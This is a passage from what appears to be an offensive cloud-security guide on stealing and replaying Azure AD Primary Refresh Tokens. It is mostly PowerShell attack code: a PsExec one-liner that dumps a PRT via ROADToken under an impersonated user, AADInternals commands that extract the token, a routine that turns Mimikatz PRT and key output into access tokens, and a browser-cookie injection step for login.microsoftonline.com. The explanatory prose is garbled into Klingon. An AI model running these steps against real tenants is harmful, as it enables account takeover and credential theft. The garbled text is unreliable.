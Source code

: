 {% code overflow="wrap" %}As oneliner:
{% endcode %}
```powershell
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```
{% endcode %}

**ghItlh** **ghItlhpu'** **tokenmey** **ghItlh** **Azure AD Graph** **Microsoft Graph** **login** **vaj** **vItlhutlh**:
```powershell
# Generate
roadrecon auth --prt-cookie <prt_cookie>

# Connect
Connect-AzureAD --AadAccessToken <token> --AccountId <acc_ind>
```
### Attack - Using roadrecon

### Attack - Using AADInternals an leaked PTR

`Get-AADIntUserPRTToken` **gets user’s PRT token** from the Azure AD joined or Hybrid joined computer. Uses `BrowserCore.exe` to get the PRT token.
```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```
pagh vaj Mimikatz vItlhutlh AADInternals lo'laH token jatlh:
```powershell
# Mimikat "PRT" value
$MimikatzPRT="MC5BWU..."

# Add padding
while($MimikatzPrt.Length % 4) {$MimikatzPrt += "="}

# Decode
$PRT=[text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Mimikatz "Clear key" value
$MimikatzClearKey="37c5ecdfeab49139288d8e7b0732a5c43fac53d3d36ca5629babf4ba5f1562f0"

# Convert to Byte array and B64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzClearKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate PRTToken with Nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey -GetNonce
$prtToken
## You can already use this token ac cookie in the browser

# Get access token from prtToken
$AT = Get-AADIntAccessTokenForAzureCoreManagement -PRTToken $prtToken

# Verify access and connect with Az. You can see account id in mimikatz prt output
Connect-AzAccount -AccessToken $AT -TenantID <tenant-id> -AccountId <acc-id>
```
Qa'vIn [https://login.microsoftonline.com](https://login.microsoftonline.com) ghap, login.microsoftonline.com cookies DaH jatlh je, je Dap cookie ngeH.
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
```